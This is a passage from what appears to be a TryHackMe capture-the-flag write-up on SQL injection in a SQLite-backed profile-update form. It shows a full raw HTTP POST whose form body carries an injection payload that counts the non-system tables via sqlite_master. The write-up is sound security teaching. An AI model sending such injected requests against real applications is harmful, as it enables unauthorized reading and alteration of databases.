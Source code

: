 ![Pasted image 20210803173927](Pasted%20image%2020210803173927.png)

It also shows that the output of the injection can only be a single column within a single row.

The presence of the SQL injection vulnerability, the fact that it is possible to execute `SELECT` statements and retrieve their output, and the database type and version have all been validated. The next step is to perform some table and column enumeration.

First, determine the number of non-SQLite system tables.

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 230
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(SELECT+COUNT(*)+FROM+sqlite_master+WHERE+type+=+'table'+AND+name+NOT+LIKE+'sqlite_%'),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```
